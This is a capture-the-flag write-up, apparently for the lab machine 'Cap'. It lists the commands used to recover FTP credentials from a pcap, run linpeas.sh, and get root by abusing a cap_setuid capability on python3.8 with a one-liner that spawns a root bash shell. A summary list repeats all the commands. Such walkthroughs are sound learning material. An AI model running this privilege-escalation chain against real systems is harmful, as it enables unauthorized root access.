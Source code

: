 ```bash
## 🐚 CAP
**Level**: easy  
**Date**: August 5, 2025  
**Goal**: get the user flag and root flag 

---

### 🧰 Tools  
- `nmap`  
- `ftp`  
- `ssh`  
- `wireshark`  
- `linpeas.sh`  
- Linux post-exploitation enumeration techniques  

---

### 🧭 Steps  

1. 🔎 **Scan the machine** for open services:
   ```bash
   nmap -sC -sV -n -F -T4 10.129.X.X
   ```
   found the open port of SSH and FTP 

---

2. 🌐 **Access the website** at `http://10.129.X.X`  
   A cost tracking panel was displayed.

---

3. 📁 **Explore web paths**:
   - Visited `/data/5` — different view  
   - Visited `/data/0` — download page for a `.pcap` file

---

4. 🧪 **Analyze `0.pcap` in Wireshark**:
   - Discovered FTP protocol traffic  
   - Found credentials for user `nathan`

---

5. 🔐 **Login via FTP**:
   ```bash
   ftp 10.129.X.X  
   # Username: nathan  
   # Password: [from .pcap file]
   ```

---

6. 📜 **Enumerate FTP directory**:
   ```bash
   ls -al  
   cat user.txt  
   # Retrieved user flag
   ```

---

7. 📡 **Switch to SSH**:
   ```bash
   ssh nathan@10.129.X.X  
   ```

---

8. 👤 **Check user groups and privileges**:
   ```bash
   id
   ```

---

9. 📦 **Download and upload `linpeas.sh` for enumeration**:
   On local machine:
   ```bash
   scp linpeas.sh nathan@10.129.X.X:/home/nathan/
   ```

   On target machine:
   ```bash
   chmod +x linpeas.sh  
   ./linpeas.sh
   ```

---

10. ⚙️ **Discover Linux Capabilities**:
   ```bash
   find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
   ```

---

### Output
```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

---

11. 🚀 **Exploit capability to escalate to root**:
   ```bash
   /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
   ```

---

12. 🏁 **Become root and retrieve the root flag**:
   ```bash
   cd /  
   cd root  
   ls  
   cat root.txt
   ```

---

### 💬 Notes  
- This was the **first full machine** you solved! 🎉  
- i learned to extract FTP credentials from `.pcap` files  
- i practiced uploading and executing post-exploitation tools  
- i discovered **Linux capabilities** for privilege escalation  
---

### 💣 Payloads Used  
```bash
nmap -F 10.129.X.X  
ftp 10.129.X.X  
ssh nathan@10.129.X.X  
scp linpeas.sh nathan@10.129.X.X:/home/nathan/  
chmod +x linpeas.sh  
./linpeas.sh  
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;  
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'  
cat user.txt  
cat root.txt
```
